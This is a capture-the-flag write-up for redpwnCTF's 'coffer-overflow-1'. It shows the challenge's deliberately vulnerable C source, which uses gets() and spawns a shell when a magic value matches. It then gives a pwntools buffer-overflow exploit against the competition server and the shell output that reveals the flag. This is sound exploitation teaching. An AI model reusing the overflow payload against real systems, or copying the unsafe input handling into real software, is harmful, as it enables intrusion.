 # coffer-overflow-1
Author: [UltimateHG](https://github.com/UltimateHG)
### Slightly more advanced
This is a continuation of coffer-overflow-0.
We take a look at the source code:
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
<br>
This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.
<br>
Here is the final exploit:
```
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell, and we with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```
